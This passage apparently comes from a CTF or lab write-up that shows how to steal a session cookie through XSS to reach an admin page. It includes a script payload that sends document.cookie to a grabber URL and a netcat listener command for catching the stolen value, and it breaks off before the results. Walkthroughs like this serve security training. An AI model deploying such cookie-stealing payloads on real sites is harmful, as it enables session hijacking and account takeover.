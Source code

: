 --> We recive the token with value encoded. Decode the value we know that is the information user1.

+ We can manipulate cookie token by XSS to grant admin and access /admin.
+ Back to home page and we will exploit code.
+ We use "Data grabber for XSS"
+ Link: "https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss"

+ Now we create the new list and create the payload which will send it to a controlled page:
```bash
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```

![alt text](image-6.png)

+ Use netcat to open the port listen:
```bash
nc -lvkp <port>
# -l: listen mode, for inbound connects
# -v: verbose mode
# -k: set keepalive option on socket
# -p: local port number
# In the situation, we have to use -k to keep the connection when we back to home page. 
```

+ Look at the netcat:
